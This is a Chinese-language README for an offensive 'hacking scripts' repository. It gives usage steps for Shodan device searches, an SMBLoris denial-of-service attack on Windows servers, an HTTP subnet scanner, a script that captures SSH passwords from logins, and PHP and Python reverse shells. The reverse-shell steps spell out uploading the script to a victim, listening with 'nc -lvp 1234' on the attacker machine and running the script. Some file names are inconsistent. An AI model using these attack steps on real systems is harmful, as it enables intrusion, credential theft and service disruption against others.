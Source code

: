 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic

shodancount.py weblogic

调用shodan api 搜索设备,如weblogic

shodansearch.py weblogic

# SMBLoris 通过smb服务对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell.php 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为攻击机器的地址

上传该脚本到被攻击的机器上

登录攻击机器，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在攻击机器上看到shell

php php-reverse-shell.php

# python-reverse-shell.py 一个基本python的反弹shell脚本

在攻击机器上监听端口，如1234

nc -lvp 1234

把php-reverse-shell.py上传到被攻击的机器上,指定攻击机器地址和端口执行即可

php-reverse-shell.py vps地址 1234

# Hope you enjoy ^_^